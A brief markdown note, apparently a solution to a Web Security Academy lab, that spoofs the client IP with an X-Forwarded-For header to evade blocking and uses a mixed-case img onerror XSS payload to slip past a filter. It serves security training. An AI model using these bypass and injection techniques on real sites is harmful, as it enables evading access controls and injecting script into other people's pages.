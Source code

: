 1. Add your custom HTTP Header to spoof your IP address, if blocked:

```
X-Forwarded-For: someIpAddress
```
2. Obfuscate the XSS Payload:

```
<img src=42 OnERroR=alert`42`>
```  

![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/bf094230-fbc3-402b-a3d7-908a631e9278)

